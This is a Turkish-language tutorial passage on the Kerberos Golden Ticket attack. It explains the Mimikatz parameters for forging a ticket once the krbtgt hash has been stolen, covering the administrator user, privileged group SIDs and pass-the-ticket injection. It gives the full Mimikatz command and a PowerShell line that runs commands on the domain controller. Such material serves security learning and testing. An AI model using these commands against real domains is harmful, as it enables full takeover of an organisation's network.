 Krbtgt parola hash bilgisi ele geçirildikten sonra Mimikatz aracı ile Altın Bilet(TGT) oluştururken gerekli parametreler verilerek bileti oluşturabiliriz.

**Not:** Mimikatz aracına aşağıdaki parametreler verilerek çalıştırılmaktadır.

| Command | Description |
|---------|--------|
| `/kerberos::golden` | Saldırı parametresi |
| `/user` | Taklit edilecek kullanıcı |
| `/domain` | Domain adı (FQDN) |
| `/Endin` | Bilet süresi belirler |
| `/Startoffset` | Başlangıç ofset belirlenir (Geçmiş negatif gelecek pozitif şimdi ise 0 değeri verilerek ayarlanır) |
| `/renewmax ` | Max süre belirleme |
| `/aes256(krbtgt,aes128)` | Krbtgt parolası girilir |
| `/SID` | Domain sid değeri girilir |
| `/SIDS` | Genellikle SIDHistory ataklarında kullanılır grup sid değeri eklenir |
| `/id` | Kullanıcı kimliği (Administrator 500) |
| `/groups` | grup sid (512:Domain Admin, 513:Admin User, 519: Enterprise Admins, 544: Administartors)
| `/ptt` | Komut inject (Pass The Ticket) |

```powershell
# Altın Bilet oluşturma
Mimikatz.exe "privilege::debug" "kerberos::golden /endin:600 /startoffset:0 /renewmax:10080 /user:administrator /domain: /sid: /id: /group: /ptt" "exit"
```

![Golden Ticket Attack](images/4.png)

Uzak sistemde powershell ile komut çalıştırma işlemi gerçekleştiriliyor.

```powershell
# DC üzerinde komut çalıştırma
Invoke-Command -ComputerName dc.windomain.local -ScriptBlock {ipconfig}
```